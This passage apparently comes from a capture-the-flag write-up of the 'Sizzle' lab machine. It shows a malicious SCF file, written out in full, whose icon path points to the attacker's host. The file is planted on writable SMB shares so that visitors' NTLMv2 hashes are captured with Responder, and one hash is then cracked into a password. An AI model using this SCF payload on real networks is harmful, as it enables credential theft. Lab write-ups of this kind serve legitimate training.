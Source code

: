 The results show that we have `write` access in both the `Public` and `ZZ_ARCHIVE` folders.

Having this access would allow us to *plant a malicious type of file* that would enable us to *steal* **NTLMv2 hashes** from users who access these locations.

## SCF File Attacks for Hash Theft
SCF (Shell Command Files) are files that can perform actions in **Windows Explorer**. One functionality can be *abused* to have the *share-visiting* user *directed* to our kali machine.

This can be done using a file with the below content:

```
[Shell]
Command=2
IconFile=\\10.10.16.7\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```

*Essentially,* this tells **File Explorer** to *fetch* the icon for the `.scf` file from a network share (*our kali box in this case*).

We're going to fire up `responder` making sure the `Responder.conf` file has the `SMB` server set to `ON`.

And then copy the `.scf` file to `\\10.10.10.103\Department Shares\Users\Public` as well as the `ZZ_ARCHIVE` folders to make sure any visitor gives us his/her hash.

![amanda-hash-captured](/assets/Sizzle/amanda-hash-captured.jpg)

We manage to get a response from the `amanda` user right away :D

We then get to cracking with `john`

![amanda-hash-cracked](/assets/Sizzle/amanda-hash-cracked.jpg)

the password turns out to be `Ashare1972`

## The WinRM situation
We first validate the creds for `amanda` with `crackmapexec` via SMB and they work.

So we try WinRM after but end up with a weird error message:

![cme-smb-yes-winrm-no](/assets/Sizzle/cme-smb-yes-winrm-no.jpg)
